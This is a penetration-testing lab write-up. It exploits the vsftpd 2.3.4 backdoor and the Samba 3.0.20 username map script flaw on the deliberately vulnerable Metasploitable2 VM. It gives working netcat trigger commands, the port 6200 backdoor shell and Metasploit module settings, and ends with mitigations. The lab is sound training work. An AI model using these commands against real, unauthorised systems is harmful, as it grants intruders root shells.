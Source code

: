 # Lab Report: Metasploitable2 — vsftpd & Samba Exploitation

---

## Table of Contents
- [Objective](#objective)
- [Lab Setup](#lab-setup)
- [Methodology](#methodology)
- [Reconnaissance](#reconnaissance)
- [Exploitation](#exploitation)
  - [vsftpd 2.3.4 Backdoor](#vsftpd-234-backdoor)
  - [Samba 3.0.20 Exploit](#samba-3020-exploit)
- [Post-Exploitation](#post-exploitation)
- [Mitigations & Recommendations](#mitigations--recommendations)
- [References](#references)

---

## 🎯 Objective

Practice real-world penetration testing by exploiting known vulnerabilities in Metasploitable2, focusing on `vsftpd 2.3.4` and `Samba 3.0.20`.

---

## 🧩 Lab Setup

- **Target:** Metasploitable2 VM  
- **Attacker:** Kali Linux VM  
- **Network:** NAT configuration for full connectivity  
- **Tools:** Nmap, Metasploit, Netcat, smbclient, searchsploit

---

## 📌 Methodology

This lab follows a streamlined version of the **Penetration Testing Execution Standard (PTES)**:

- **Reconnaissance:** Identify live hosts and running services.
- **Enumeration:** Gather detailed version information to pinpoint vulnerabilities.
- **Exploitation:** Use known CVEs and exploits to gain unauthorized access.
- **Post-Exploitation:** Confirm level of access, demonstrate impact, and outline possible next steps.
- **Reporting:** Document proof-of-concept, supporting evidence, and practical remediation advice.

---

## ⚔️ ATT&CK Mapping

Relevant MITRE ATT&CK techniques demonstrated in this lab:

- **T1190 - Exploit Public-Facing Application:** vsftpd 2.3.4 backdoor and Samba 3.0.20 username map script RCE.
- **T1059 - Command and Scripting Interpreter:** Interactive shell access via Netcat and Metasploit.
- **T1078 - Valid Accounts (Conceptual):** Using crafted credentials or misconfigurations to trigger exploitation.

---

## 🔍 Reconnaissance

Metasploitable2 is an intentionally vulnerable Linux VM used to practice common exploitation techniques.

Download links:  
- [Rapid7 Metasploitable2](https://information.rapid7.com/metasploitable-download.html)  
- [SourceForge](https://sourceforge.net/projects/metasploitable/)

---

### 🔎 Nmap Scan

I ran a version scan on common ports:

```bash
nmap -sV -p 21,139,445 <target-ip>
````

**Nmap Results:**

| Port | State | Service      | Version      |
| ---- | ----- | ------------ | ------------ |
| 21   | open  | ftp          | vsftpd 2.3.4 |
| 139  | open  | netbios-ssn  | Samba 3.0.20 |
| 445  | open  | microsoft-ds | Samba 3.0.20 |

![Nmap Scan](/screenshots/metasploitable2/nmap_version_port_scan.png)
*Figure 1: Nmap confirms vsftpd 2.3.4 and Samba 3.0.20 open.*

---

## ⚡ Exploitation

---

### 🗝️ vsftpd 2.3.4 Backdoor Exploit

**About:**
vsftpd 2.3.4 has a malicious backdoor (CVE-2011-2523). Logging in with a username that ends in `:)` opens a hidden shell on port `6200`.

---

**Steps Taken:**

1️⃣ Connect to FTP port:

```bash
nc <target-ip> 21
```

* **Username:** `exploitingYou:)`
* **Password:** `youvebeenhacked`

![vsftpd Trigger](/screenshots/metasploitable2/nc_user_pass_exploit.png)
*Figure 2: Sending special username to trigger the backdoor.*

---

2️⃣ Connect to the hidden backdoor shell on port 6200:

```bash
nc -v <target-ip> 6200
```

3️⃣ Verify root access:

```bash
id
whoami
ls
```

![vsftpd Root Shell](/screenshots/metasploitable2/nc_root_access.png)
*Figure 3: Confirmed root access via backdoor.*

---

### 🗝️ Samba 3.0.20 Exploit (Username Map Script)

**About:**
Samba 3.0.20 has a remote code execution vulnerability (Username Map Script) which allows shell execution.

---

**Steps Taken:**

1️⃣ Started Metasploit:

```bash
msfconsole
```

2️⃣ Ran an SMB version scan to confirm the target version:

```bash
use auxiliary/scanner/smb/smb_version
set RHOSTS <target-ip>
run
```

![SMB Version Scan](/screenshots/metasploitable2/msf_smb_version.png)
*Figure 4: Scanner confirms Samba 3.0.20.*

---

3️⃣ Found an exploit using `searchsploit`:

```bash
searchsploit samba 3.0.20
```

Identified `Username Map Script` exploit.

![Searchsploit Result](/screenshots/metasploitable2/searchsploit_samba_version.png)
*Figure 5: `searchsploit` output.*

---

4️⃣ Loaded the exploit module:

```bash
use exploit/multi/samba/usermap_script
set RHOSTS <target-ip>
exploit
```

5️⃣ Verified shell access:

```bash
whoami
ls
```

![Samba Exploit Shell](/screenshots/metasploitable2/msf_usermap_script_root.png)
*Figure 6: Shell confirmed with root privileges.*

---

## 🔓 Post-Exploitation

After gaining root-level shells on both services:

* Verified privileges (`whoami`, `id`).
* Listed files and directories.
* Confirmed ability to run arbitrary commands.
* Would pivot to enumerate users, check `/etc/passwd`, search for sensitive configs (`*.conf`), and test lateral movement if this were a real engagement.

---

## Mitigations & Recommendations

* **vsftpd:** Remove version 2.3.4 and install the latest trusted release.
* **Samba:** Patch to a secure version; disable unnecessary Samba shares.
* Enforce least privilege for services.
* Use firewalls to limit service exposure.
* Monitor network traffic for unusual ports and connections.

---

## 📚 References

* [Metasploitable2](https://sourceforge.net/projects/metasploitable/)
* [vsftpd 2.3.4 Backdoor (CVE-2011-2523)](https://www.cvedetails.com/cve/CVE-2011-2523/)
* [Metasploit Samba Exploit](https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script/)

---

~ Eric Graham

